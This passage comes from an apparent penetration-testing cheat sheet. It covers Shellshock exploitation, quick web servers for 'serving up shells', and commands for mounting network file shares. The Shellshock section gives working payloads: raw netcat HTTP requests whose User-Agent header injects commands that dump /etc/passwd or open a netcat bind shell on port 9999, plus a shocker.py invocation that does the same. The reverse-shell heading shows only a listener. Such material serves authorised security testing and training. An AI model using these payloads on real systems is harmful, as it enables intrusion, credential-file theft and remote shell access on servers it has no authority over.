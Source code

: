 ```
gcc -m32 -o output32 hello.c (32 bit)
gcc -m64 -o output hello.c (64 bit)
```

### Exploiting Common Vulnerabilities

#### Exploiting Shellshock

A tool to find and exploit servers vulnerable to Shellshock:

```
git clone https://github.com/nccgroup/shocker
./shocker.py -H TARGET  --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
```

##### cat file (view file contents)

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

##### Shell Shock run bind shell

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc TARGET 80
```

##### Shell Shock reverse Shell

```
nc -l -p 443
```

## Simple Local Web Servers

Python local web server command, handy for serving up shells and exploits on an attacking machine.

| COMMAND                                                      | DESCRIPTION                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `python -m SimpleHTTPServer 80`                              | Run a basic http server, great for serving up shells etc     |
| `python3 -m http.server`                                     | Run a basic Python3 http server, great for serving up shells etc |
| `ruby -rwebrick -e "WEBrick::HTTPServer.new(:Port => 80, :DocumentRoot => Dir.pwd).start"` | Run a ruby webrick basic http server                         |
| `php -S 0.0.0.0:80`                                          | Run a basic PHP http server                                  |

## Mounting File Shares

How to mount NFS / CIFS, Windows and Linux file shares.

| COMMAND                                                      | DESCRIPTION                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `mount 192.168.1.1:/vol/share /mnt/nfs`                      | Mount NFS share to `/mnt/nfs`                                |
| `mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs` | Mount Windows CIFS / SMB share on Linux at `/mnt/cifs` if you remove password it will prompt on the CLI (more secure as it wont end up in bash_history) |
| `net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no` | Mount a Windows share on Windows from the command line       |
| `apt-get install smb4k -y`                                   | Install smb4k on Kali, useful Linux GUI for browsing SMB shares |
